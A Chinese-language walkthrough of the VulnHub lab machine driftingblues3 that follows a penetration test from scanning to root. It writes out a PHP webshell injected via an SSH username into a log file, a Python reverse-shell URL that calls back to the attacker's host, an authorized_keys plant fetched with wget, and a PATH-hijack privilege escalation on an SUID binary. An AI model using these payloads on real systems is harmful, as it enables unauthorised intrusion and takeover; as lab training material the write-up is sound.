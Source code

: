 ```yaml
---
title: driftingblues3 VulnHub Walkthrough
date: 2021-10-13 17:09:41
categories:
- 渗透测试
tags:
- VulnHub
---
```


## driftingblues3 VulnHub Walkthrough

### 信息收集

#### 主机发现

```
arp-scan -l
```

![](https://i.loli.net/2021/10/13/gbHz2QBdPq1Fr5m.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.173 
```

![](https://i.loli.net/2021/10/13/dyUSqGQHbJYXtcP.png)

只开放了22和80端口，先访问80端口看看

![](https://i.loli.net/2021/10/13/v23PbJpqjdwMiXl.png)

好像没有什么信息，扫一下目录

```
dirsearch -u http://192.168.62.173/
```

![](https://i.loli.net/2021/10/13/QvTbR73iftpaIZY.png)

有点奇怪，逐个看了一下，好像都是没用的信息

![](https://i.loli.net/2021/10/13/DcIX8Bov5bh4KlS.png)

再看看robots.txt，是唯一有用的路径

![](https://i.loli.net/2021/10/13/Z97ixT5SKCVjzuy.png)

接着访问一下

![](https://i.loli.net/2021/10/13/RnyvEz1OImLurMZ.png)

emmm再接再厉，继续访问

![](https://i.loli.net/2021/10/13/dWAkgJ5BQLy81OI.png)

好像是诗歌还是歌词，目前没有什么信息，查看一下源码

![](https://i.loli.net/2021/10/13/hV3pdTlWcbvkABE.png)

base64编码，到在线网站转换一下

<img src="https://i.loli.net/2021/10/13/8EgkBodRq1YjAOH.png" style="zoom: 67%;" />

哎，还要再转换一次

<img src="https://i.loli.net/2021/10/13/KC1QoRcmuTqG4fE.png" style="zoom:67%;" />

提示了一个php文件，去访问一下

![](https://i.loli.net/2021/10/13/JPCuhSeUZXnOkRq.png)

### 漏洞发现

这个php文件是应该ssh登录日志，先随便尝试一下登录，看会不会有记录

![](https://i.loli.net/2021/10/13/nFKbN5to2rTjSHa.png)

可以看到两个登录用户名都已经记录了，那接下来就尝试通过日志写shell

![](https://i.loli.net/2021/10/13/UXd7Z2kRHJmP8cu.png)

### 漏洞利用&getshell

以php的webshell作为用户名来登录ssh

```
ssh '<?php system($_GET["cmd"]);?>'@192.168.62.173
```

![](https://i.loli.net/2021/10/13/VQBO5Tumo1YRdLN.png)

看一下效果，看到已经可以执行命令了

![](https://i.loli.net/2021/10/13/hEsStkQvywi58UL.png)

#### 反弹shell

先看一下有没有python环境

![](https://i.loli.net/2021/10/13/JajMB9ytKZoHbur.png)

可以看到，靶机是有python3环境的，那就试试python来反弹shell

先开启一个监听端口来接收反弹的shell

![](https://i.loli.net/2021/10/13/e6KnGq2tVahXDj3.png)

访问一下

```
http://192.168.62.173/adminsfixit.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.62.134%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

在本机已经接收到了shell

![](https://i.loli.net/2021/10/13/i1go6kHnBwEvKqZ.png)

#### SSH登录

进入到/home/robertj目录，发现.ssh是有写权限的，那我们就可以将我们的公钥写进去，实现免密登录

先在本地生成公私钥

```
ssh-keygen	#一直回默认就可以
```

<img src="https://i.loli.net/2021/10/13/uRrKZvgWmeOd2wz.png" style="zoom:80%;" />

进入本地ssh目录，查看一下id_rsa.pub

![](https://i.loli.net/2021/10/13/86VYpyWAalHc1I3.png)

将id_rsa.pub的内容复制到authorized_keys

```
cat id_rsa.pub >> authorized_keys
```

然后上传到靶机的ssh目录，先在本机用python开启一个http服务

```
python3 -m http.server 80
```

![](https://i.loli.net/2021/10/13/McPewFdQo6hHbUx.png)

到靶机的ssh目录通过wget下载

```
wget http://192.168.62.134/authorized_keys
```

![](https://i.loli.net/2021/10/13/Gj84pDCxswU3HM5.png)

现在可以实现ssh免密登录了

![](https://i.loli.net/2021/10/13/IhaoP4B9NQnbAKF.png)

先获取第一个flag

<img src="https://i.loli.net/2021/10/13/KzHwX46Zqn2ux51.png" style="zoom:67%;" />

### 权限提升

先看一下具有suid的可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://i.loli.net/2021/10/13/K9mLIjMbpYq5Du2.png)

看到有一个getinfo命令，先执行一下看看

<img src="https://i.loli.net/2021/10/13/JMgydKAf6sW3wYE.png"  />

看着应该是分别执行了ip a、cat /etc/hosts、uname -a命令

那么执行具有suid的getinfo时，将会执行ip、cat、uname，那我们就可以写一个模拟可执行文件

这里我在tmp目录新建一个文件ip，并赋予执行权限

```
echo "/bin/bash" > /tmp/ip
chmod +x /tmp/ip
```

![](https://i.loli.net/2021/10/13/vGzTbRejQkKW7NB.png)

最后，添加一个环境变量/tmp，这样再执行一次具有suid的getinfo时，就会以root权限执行我们新建的/tmp/ip，我们就可以提权到root了

```
export PATH=/tmp:$PATH
/usr/bin/getinfo
```

![](https://i.loli.net/2021/10/13/jafxOrYPwXck6SQ.png)

现在可以获取第二个flag了

<img src="https://i.loli.net/2021/10/13/N6vYROXlgVuKbWU.png" style="zoom:67%;" />

